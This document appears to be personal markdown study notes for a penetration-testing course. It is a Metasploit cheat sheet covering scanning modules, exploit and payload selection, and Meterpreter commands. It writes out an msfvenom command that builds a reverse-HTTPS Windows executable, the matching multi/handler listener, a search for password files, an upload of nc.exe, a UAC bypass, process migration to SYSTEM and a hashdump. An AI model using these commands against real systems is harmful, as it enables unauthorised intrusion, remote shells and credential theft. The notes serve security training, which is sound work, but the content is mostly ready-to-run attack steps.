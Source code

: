 # Metasploit Pre Exploitation
- options:
  - global variables: `set -> setg` for THREADS and/or RHOSTS, etc...
## Auxiliary Modules
- `show auxiliary`
### SNMP Auxiliary Module
- `search snmp`
  - example: `auxiliary/scanner/snmp/snmp_enum`
    - `use auxiliary/scanner/snmp/snmp_enum`
    - `info`
    - `show options`
    - `set ...`
    - `run`
### SMB Auxiliary Module
- `use auxiliary/scanner/smb/smb_version`

## Database Services
> Commands within metasploit
- `hosts`
- `db_nmap 192.168.31.200-254 --top-ports 20`
- `services -p 443`

## Exploit Modules
- `search pop3`
- `use ...`
- `show options`
- `set PAYLOAD windows/... (TAB to see more)`
- `set PAYLOAD windows/shell_reverse_tcp`
- `exploit`

## Payloads
> Staged and Non staged shell code.  
Mterpreter - staged multi-function payload that cn be extended in runtime.  

- `set PAYLOAD windows/meterpreter/reverce_tcp`
- `exploit`
- `meterpreter > help`
- commands
  - `sysinfo`, `getuid`, `search -f *pass*.txt`
  - `upload /usr/share/windows-binaries/nc.exe c:\\Users\\Offsec`
  - `download c:\\windows\\system32\calc.exe /tmp/calc.exe`
  - `shell`
  - `exit -y`

## Additional payloads
- `use windows/meterpreter/reverse_https`
> Tunnel communication over HTTPS usil SSL, Inject he meterpreter server DLL via Reflective Dll Ijection payload (staged).
> Helps us avoid 'deep packet inspection' services.
- `use windows/meterpreter/reverse_tcp_allports`
> Try to connect back to the attacker machine on all possible ports (slowly)

## Binary payloads
- `msfvenom -l`
### The creation of the payload
- `msfvenom -p windows/meterpreter/reverse_https LHOST=kali-ip LPORT=443 -f exe --platform windows -a x86 > /var/www/html/reverse_met_https.exe`
### The creation of the matching listener
> The Multihandler Module (via msfconsole)
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
show options
set LHOST 10.11.0.179
set LPORT 443
exploit
```
## Porting Exploits to MSF

# Metasploit Post Exploitation
```
msfconsole ...
set ... 
use ...
exploit
```
```
# within a meterpreter session
getuid
getprivs (checking for UAC)

# bypassing UAC
background
use exploit/windows/local/bypassuac
show options (we need session ID)
# list sessions
sessions -l
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST xxx
set LPORT 8888
clear
# executing the exploit on session #1
run
# a new session will be created which have bypassed UAC restrictions
# check by executing getprivs
getprivs
hashdump (still fails)
# we need system privleges -> migrate our current meterpreter process
ps
# look for running process with SYSTEM privleges
migrate %the process ID% (from the list)
getuid
hashdump (it will work now)
```
